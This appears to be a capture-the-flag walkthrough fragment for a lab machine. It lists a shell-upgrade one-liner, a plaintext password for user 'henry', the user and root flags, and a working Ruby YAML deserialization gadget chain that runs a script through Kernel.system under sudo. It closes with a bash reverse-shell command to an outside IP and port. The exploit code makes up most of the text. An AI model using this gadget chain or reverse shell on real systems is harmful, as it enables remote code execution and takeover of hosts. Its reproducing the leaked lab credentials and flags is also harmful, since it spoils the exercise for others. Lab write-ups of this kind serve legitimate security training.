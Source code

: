 
## USER

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
```


Password for henry:

```
Q3c1AqGHtoI0aXAYFH
```

User flag: `cc3cd41d874ebd05f7b7b7366abaaad1`

## ROOT

Try this vuln on dependencies.yml file and execute the command availabe with `sudo -l`
https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

root flag: `2ebe27d5c2f9d4e7a6c9ccd00a979626`

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash /home/henry/exploit.sh
         method_id: :resolve

```

```shell
sh -i >& /dev/tcp/10.10.14.38/9002 0>&1
```